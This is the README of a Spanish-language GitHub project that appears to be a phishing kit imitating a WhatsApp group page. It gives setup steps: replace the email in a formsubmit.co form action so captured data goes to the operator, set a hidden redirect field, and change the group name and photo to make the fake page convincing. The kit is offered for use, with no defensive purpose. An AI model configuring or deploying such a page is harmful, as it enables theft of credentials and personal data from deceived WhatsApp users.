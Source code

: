 # WhatsApp-fishing
WhatsApp_fishing web

## website para fishing para Whatsapp

# requerimientos

> no se requiere ningún tipo de plugin o extensión

# configuración 

> configuración de envío de datos

> efitar la sección de form donde se encuentra el username para remplazar por su correo
>
```html
 <form action="https://formsubmit.co/username@gmail.com" method="POST">
```
# nombre

> también puedes editar el nombre del grupo como la foto de perfil :)

# enlace de archivos 

> para enlazar el index.html y el código.html se tiene que proporcionar el link creado por el hosting
>
> se tiene que editar el redireciona para que apunte ala web se edita la siguiente sección

```html
<input type="hidden" name="_next" value="url_web">
```
# recursos

> puedes utilizar los load implementado en los archivos :)
>
# fotos 

<body>
 <img src="https://raw.githubusercontent.com/A72672/WhatsApp-fishing/main/fhoto/Screenshot_2023-10-10_07-58-07.png">
</body>
